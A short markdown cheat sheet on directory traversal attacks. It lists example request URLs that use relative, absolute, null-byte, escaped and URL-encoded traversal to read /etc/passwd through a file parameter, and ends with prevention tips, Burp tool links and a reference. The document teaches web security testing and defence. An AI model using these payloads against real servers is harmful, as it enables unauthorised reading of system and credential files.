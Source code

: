 # Directory traversal :open_file_folder:
Gain access to files and directories that are stored outside the web root directory.  This can be accomplished in a variety of ways for requests that take user supplied input and use it to retrieve a file:

```sh
# Relative path traversal
https://server.com/loadimage?filename=../../../etc/passwd

# Absolute path traversal
https://server.com/loadimage?filename=/etc/passwd

# Known start path with relative traversal
https://server.com/loadimage?filename=/var/www/images/../../../etc/passwd

# Relative path traversal with null byte
https://server.com/loadimage?filename=../../../etc/passwd%00.png

# Relative path traversal with escaped paths
https://server.com/loadimage?filename=....//....//....//etc/passwd
https://server.com/loadimage?filename=....\/....\/....\/etc/passwd

# Relative path traversal with URL encoded paths %2E%2E%2F == ../
https://server.com/loadimage?filename=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc/passwd
```

## Prevent
* Do not allow user supplied input to be used to retrieve files.
* Strip all path traversal characters from user supplied input.
* Do not allow server process to read files outside of defined asset directories.
* Change file retrieval requests against safelist of allowed paths and files.

## Tools
* [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy)
* [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater)
* [BApp Store > Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)


## References
* https://portswigger.net/web-security/file-path-traversal